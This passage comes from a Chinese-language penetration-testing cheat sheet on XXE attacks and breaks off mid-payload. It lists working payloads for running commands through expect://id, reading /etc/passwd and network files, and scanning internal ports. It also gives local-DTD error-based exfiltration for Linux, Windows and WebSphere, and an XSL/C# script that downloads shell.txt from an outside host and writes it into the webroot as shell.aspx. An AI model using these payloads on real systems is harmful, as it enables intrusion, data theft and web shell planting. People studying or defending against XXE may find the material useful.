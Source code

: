 	不同平台支持的协议
![image](/assets/Pentest_Note/master/img/11.png)

 ##### 执行命令
	安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。
	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE xxe [
	<!ELEMENT name ANY >
	<!ENTITY xxe SYSTEM "expect://id" >]>
	<root>
	<name>&xxe;</name>
	</root>
 ##### 内网主机探测
	可先读取/etc/network/interfaces、/proc/net/arp、/etc/hosts等文件查询IP段
	使用脚本
 ##### 内网端口扫描
	<?xml version="1.0" encoding="utf-8"?>  
	<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
	<!ELEMENT data (#PCDATA)>  
	]>
	<data>4</data>
	可使用burpsuite的intruder模块进行遍历
 ##### 内部DTD利用
	Linux
	<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
	<!ENTITY % ISOamsa 'Your DTD code'>
	%local_dtd;
	Windows
	<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
	<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
	%local_dtd;
	<?xml version="1.0" ?>
	<!DOCTYPE message [
	<!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

	<!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

	%local_dtd;
	]>
	<message>any text</message>
 ##### XXE写shell
	当XXE支持XSL时
	<?xml version='1.0'?>
	<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:msxsl="urn:schemas-microsoft-com:xslt"
	xmlns:user="http://mycompany.com/mynamespace">
	<msxsl:script language="C#" implements-prefix="user">
	<![CDATA[
	public string xml()
	{
	    System.Net.WebClient webClient = new System.Net.WebClient();
	    webClient.DownloadFile("https://x.x.x.x/shell.txt",
                       @"c:\inetpub\wwwroot\shell.aspx");
	